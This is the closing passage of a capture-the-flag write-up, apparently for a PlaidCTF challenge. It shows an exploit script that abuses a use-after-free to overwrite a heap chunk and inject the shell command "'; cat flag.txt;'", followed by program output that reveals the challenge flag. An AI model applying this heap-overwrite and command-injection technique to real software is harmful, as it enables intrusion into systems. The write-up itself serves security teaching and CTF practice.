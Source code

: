 ```
do_send('5')
do_recv('? ')
# Nope!
do_send('')
do_recv('> ')
# Set a timezone
do_send('3')
do_recv(': ')
# 256 bytes of padding to reach the beginning of the old format chunk
# 16 bytes to overwrite the chunk's header
# The command injection
do_send(' '*256+' '*16+"%H'; cat flag.txt;'")
do_recv('> ')
# Print the time
do_send('4')
do_recv('> ')
r.interactive()
```

Once executed:

```
[snip]

1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>

                                  %H'; cat flag.txt;'
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>
4
Your formatted time is: 00
PCTF{use_after_free_isnt_so_bad}
sh: 1: : Permission denied
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>

```


[plaidctf]: http://www.plaidctf.com/
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strspn]: http://man7.org/linux/man-pages/man3/strspn.3.html
[setenv]: http://man7.org/linux/man-pages/man3/setenv.3.html
[system]: http://man7.org/linux/man-pages/man3/system.3.html
[fastbins]: http://man7.org/linux/man-pages/man3/mallopt.3.html
[dangling]: https://en.wikipedia.org/wiki/Dangling_pointer